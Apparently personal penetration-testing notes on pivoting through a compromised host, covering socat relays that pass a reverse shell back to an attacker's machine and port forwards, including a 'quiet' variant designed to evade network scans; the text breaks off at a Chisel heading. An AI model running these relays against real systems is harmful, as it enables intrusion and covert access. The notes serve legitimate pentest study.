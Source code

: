 1) set up a listener on attacking machine (netcat, pwncat) 
2) On compromised start socat to start relay. 

```
./socat tcp-l:$LISTENING_PORT tcp:$IP_from_attacking_machine:$ATTACKING_PORT &

tcp-1:8000 is used to create a IPv4 listener on port 8000
tcp:$IP_from_attacking_machine:$PORT connects back to to local IP on port

```

We can then create a reverse shell on compromised server and this calls back to the local machine through the relay.

### Port forward - easiest way

Open a listening port on the compromised server and redirect traffic to a target server.

```
./socat tcp-l:port,fork,reuseaddr, tcp:<ip of target server>:port &

fork is used to to put every connection into a new process
reuseaddr allows the port to stay open after a connection is made to it

reuseaddr and fork allow the same port to be used again 

```

We can then connect to port 33060 on a relay machine and have the connection directly relayed to the intended target.

Example compromised machine ip 172.16.0.5 target ip 172.16.0.10

```./socat tcp-l:33060,fork,reuseaddr, tcp:172.16.0.10:33060 &``` allows us to connect to port 33060 on 172.16.0.5 and have traffic directed to 172.16.0.10

### Port foward -quietly

The easy way described opens a port which can be detected by network scans. A more complex quiet way that doesn't open a port can used.

1) On attacking machine run ```socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &``` (this opens up port 8000 with fork and reuseaddr to allow more than one connection using this port foward, 8001, creates a local port relay).
2) On the compromised relay server execute ```./socat tcp:$ATTACKING_IP:8001 tcp:$INTENDED TARGET:&port,fork & ```

This creates a link between the intended target port (i.e port 80) to our local host.  

Example of this (our ip 10.50.73.2 target ip 172.16.0.10)
```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr & (on our machine)
./socat tcp:$10.50.73.2:8001 tcp:172.16.0.10:80,fork & 
```

In this example we create a link between our port 8000 and targets 172.16.0.10:80:
- The request goes to 127.0.0.1:8000
- Socat forwards anything from port 8000 on our machine to port 8001
- Port 8001 is connected directly to the socat process on the compromised server (so all traffic from port 8001 goes to 80 on the intended target)
- The process is reversed when the target sends a response (traffic from port 80 goes to port 8001 on our machine then to 8000) 

Remeber to kill process after as it is a background job.

## Chisel

A golang tool to set up a tunnelled proxy/port forward through a compromised system despite whether there is ssh access or not. 
```